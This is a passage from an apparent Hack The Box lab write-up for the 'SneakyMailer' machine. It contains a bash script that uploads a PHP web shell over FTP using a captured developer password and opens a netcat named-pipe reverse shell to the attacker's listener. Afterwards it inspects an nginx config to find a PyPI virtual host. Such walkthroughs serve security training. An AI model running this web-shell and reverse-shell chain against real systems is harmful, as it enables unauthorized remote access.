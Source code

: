 {% include image.html image_alt="be8e5a80.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/be8e5a80.png" %}

Awesome but the file gets deleted in an instant. I need an automated way.

<div class="filename"><span>shell.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.197
LHOST=10.10.16.23
LPORT=80
USER=developer
PASS='m^AsY7vTKVT+dV1{WOU%@NaHkUAId3]C'
CMD="rm /tmp/p; mknod /tmp/p p; /bin/bash </tmp/p | /bin/nc $LHOST $LPORT >/tmp/p"

cat <<EOF >cmd.php
<?php echo shell_exec('$CMD'); ?>
EOF

curl -s -T cmd.php "ftp://${USER}:$(urlencode ${PASS})@${HOST}/dev/"
curl -m 3 "http://dev.sneakycorp.htb/cmd.php" 2>/dev/null
```

Run the script and you should get a shell at your `nc` listener.

{% include image.html image_alt="18aae6dd.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/18aae6dd.png" %}

### Where is this PyPI service located at?

The PyPI respository is essentially hosted out of a HTTP web server. The other `http` service being `8080/tcp` is likely the one. This is what it looks at `http://10.10.10.197:8080`.

{% include image.html image_alt="bed22826.png" image_src="/f6d69e00-f868-46b9-95db-9ecf8f2ea495/bed22826.png" %}

This tells me that some kind of virtual host or subdomain exists. We have two domains: `sneakycorp.htb` and `sneakymailer.htb` and since we are looking for the PyPI service, let's check out the nginx configuration.

```
$ cat /etc/nginx/sites-available/pypi.sneakycorp.htb
server {
        listen 0.0.0.0:8080 default_server;
        listen [::]:8080 default_server;
        server_name _;
}


server {
        listen 0.0.0.0:8080;
        listen [::]:8080;

        server_name pypi.sneakycorp.htb;

        location / {
                proxy_pass http://127.0.0.1:5000;
                proxy_set_header Host $host;
                proxy_set_header X-Real-IP $remote_addr;
        }
}
```


[1]: https://www.hackthebox.eu/home/machines/profile/262
[2]: https://www.hackthebox.eu/home/users/profile/106709
[3]: https://www.hackthebox.eu/